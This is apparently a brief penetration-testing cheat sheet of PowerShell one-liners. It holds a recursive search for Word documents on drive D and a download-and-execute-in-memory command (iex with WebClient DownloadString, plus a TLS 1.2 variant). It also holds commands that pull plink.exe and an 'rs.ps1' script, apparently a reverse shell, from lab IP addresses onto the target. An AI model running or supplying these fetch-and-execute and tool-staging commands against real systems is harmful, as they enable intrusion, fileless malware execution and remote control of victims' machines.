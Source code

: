 # Memo Commands

## Memo commands

### ls

```csharp
Get-ChildItem -Path D:\ -Include *.doc* -File -Recurse -ErrorAction SilentlyContinue
```

## Powershell Webclient

### Download and execute into memory

```csharp
iex((new-object net.webclient).downloadstring('http://URL/file.something'))
```

### TLS \(in case of https ...\)

```csharp
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iex((new-object net.webclient).
downloadstring('http://URL/file.something'))
```

### Wget

```csharp
C:\>powershell (new-object System.Net.Webclient).DownloadFile('http://10.11.0.138/plink.exe','C:\plink.exe')
```

```csharp
powershell.exe -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://10.10.16.25/rs.ps1', 'c:\Windows\Temp\rs.ps1')"
```



